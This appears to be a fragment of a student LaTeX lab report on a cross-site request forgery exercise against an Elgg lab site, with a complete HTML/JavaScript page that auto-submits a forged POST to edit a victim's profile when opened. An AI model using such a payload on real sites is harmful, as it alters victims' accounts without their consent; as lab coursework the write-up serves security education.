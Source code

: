 \documentclass[a4paper,11pt]{article}
\begin{document}
After that, we introduce the html code block \ref{lst:task4.3} in \verb|post.html| in the attack website, and send a fishing webpage to Alice with the link. When Alice click the link, Alice will edit Alice's profile, as shown in figure \ref{fig:task4.3}.
\begin{lstlisting}[caption={POST HTML},label={lst:task4.3},language=HTML,breaklines=true]
<html>
<body>
<h1>This page forges an HTTP POST request.</h1>
<script type="text/javascript">

function forge_post()
{
var fields;
 fields += "<input type='hidden' name='name' value='Alice''>";
 fields += "<input type='hidden' name='description' value='<p>BOBY IS MY HERO</p>\r\n'>";
 fields += "<input type='hidden' name='accesslevel[description] value='2'>";
 fields += "<input type='hidden' name='guid' value='42'>";

 // Create a <form> element.
 var p = document.createElement("form");

 // Construct the form
 p.action = "http://www.csrflabelgg.com/action/profile/edit";
 p.innerHTML = fields;
 p.method = "post";

 // Append the form to the current page.
 document.body.appendChild(p);

 // Submit the form
 p.submit();
 }

 // Invoke forge_post() after the page is loaded.
 window.onload = function() { forge_post();}
 </script>
 </body>
 </html>
\end{lstlisting}
\begin{figure}[h]
    \centering
       \includegraphics[width=0.7\textwidth]{figures/task4/task4.3.png}
    \caption{Execute Result}\label{fig:task4.3}
\end{figure}

\begin{figure}[h]
    \centering
       \includegraphics[width=0.7\textwidth]{figures/task4/task4.4.png}
    \caption{User ID in Member Page Source}\label{fig:task4.4}
\end{figure}
\end{document}
